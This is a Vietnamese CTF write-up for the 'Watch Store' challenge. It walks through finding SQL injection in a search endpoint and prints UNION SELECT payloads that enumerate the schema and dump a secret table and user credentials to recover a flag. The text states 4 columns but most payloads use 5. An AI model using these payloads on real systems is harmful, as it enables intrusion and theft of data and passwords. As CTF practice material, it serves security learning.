

# VSL Summer CTF

---
# Challenge: Watch Store
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:1234
- Tính năng: Tạo tài khoản người dùng và tìm kiếm sản phẩm

## 3. Solution:
- Tại trang chủ: http://61.14.233.78:1234, ta thấy có một sản phẩm là phần 2 của flag **`_SQL_Inj3ct10n_W1th_`**, vậy có thể đây là 1 gợi ý về `SQL injection` và flag được chia thành nhiều phần.

- Ta sẽ lần lượt test `SQL injection` ở các endpoint `/login.php`, `/register.php` và `/search.php`.

- Sau một số lần thử thì mình đã kết luận rằng 2 endpoint `/login.php` và `/register.php` không thể khai thác được.

- Nhưng ở endpoint `/search.php` thì mình đã thử payload `test' OR 1 -- `, kết quả là server vẫn trả về danh sách các sản phẩm, vậy có thể kết luận trang web đã dính SQL injection tại endpoint `/search.php`.

- Vậy mọi chuyện bây giờ chỉ đơn giản là xác định số cột rồi trích xuất tất cả dữ liệu trong database của server.

- Mình đã có thử dùng `ORDER BY` để xác định số cột nhưng đã bị chặn, nên mình đã chuyển sang dùng `UNION SELECT` để xác định số cột và số cột là `4`.

- Trích xuất dữ liệu:
	- Payload: `' UNION SELECT NULL, database(), NULL, NULL, NULL -- -`  
	**---> Tên Database:** `ctf_db`
    
    - Payload: `' UNION SELECT NULL, table_name, NULL, NULL, NULL FROM information_schema.tables -- -`  
    **---> Các bảng đáng chú ý:** `users, secret`
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='secret' -- -`  
	**--> Các cột bảng `secret`:** description, id, image, name, price
    
    - Payload: `' UNION SELECT id, description, image, name, price FROM secret -- -`
    **--> Nội dung bảng `secret` có chứa part 1 của FLAG:** **`VSL{M4st3r1ng_Th3_4rt_0f`**
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' -- -`
    **--> Các cột đáng chú ý của bảng `users`:** `username, password`
    
    - Payload: `' UNION SELECT NULL, username, password, NULL, NULL FROM users -- -` với payload này ta sẽ dump được một username đáng chú ý là `Have A Nice Day Done` với password là 1 mã hex `4279703473735F346C6C5F46316C743372737D` khi decode ta nhận được part 3 của flag: **`Byp4ss_4ll_F1lt3rs}`**
    
- Kết hợp 3 phần ta được FLAG: **`VSL{M4st3r1ng_Th3_4rt_0f_SQL_Inj3ct10n_W1th_Byp4ss_4ll_F1lt3rs}`**
    	

    